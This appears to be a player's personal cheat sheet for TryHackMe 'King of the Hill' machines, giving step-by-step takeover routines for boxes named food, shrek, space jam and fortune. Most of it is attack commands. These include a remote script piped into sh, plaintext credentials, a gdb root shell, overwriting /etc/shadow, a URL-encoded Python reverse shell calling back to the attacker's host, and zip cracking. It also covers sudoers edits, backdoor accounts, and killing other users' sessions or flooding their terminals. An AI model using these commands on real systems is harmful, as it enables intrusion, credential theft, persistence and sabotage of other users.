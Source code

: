 start up the in-browser machine  
to run linPEAS, do:  
curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh  

# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  


# food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
sudo chmod -xs vim.basic  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


# shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit  
be root  
copypaste these in place of shrek's account in /etc/shadow  
shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::  
you now have shrek:onionshavelayers  
make shrek a sudoer  
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *  
grab the flag if someone else hasn't already  
sudo systemctl stop httpd  
sudo systemctl stop tomcat  
afterwards stuff        




# space jam:  
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"  
you're king and root  
afterwards stuff  
systemctl stop easyaccess  
systemctl stop daemon  
change password  
killall node(make sure to ssh first)  
chmod /bin/cp 000      

???  
profit      

# Fortune:
Requires: fcrackzip

nc <BOX_IP> 3333
#returns base 64 hash of a file.  
Go here https://base64.guru/converter/decode/file and get the zip file.
fcrackzip -v -u -D -p <location of rockyou.txt> application.zip
Open the zip with the password you got.  Should contain password for fortune account.
ssh fortuna@<BOX IP>
sudo pico /etc/sudoers
Replace pico in sudoers file with ALL. (e.g. fortuna    ALL=(ALL:ALL) ALL)
sudo su
you're root
stuff to do: 
	change password to fortuna.
	Remove fortuna from /etc/sudoers and add another user that you have credentials for.


# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &  
use social engineering wall  







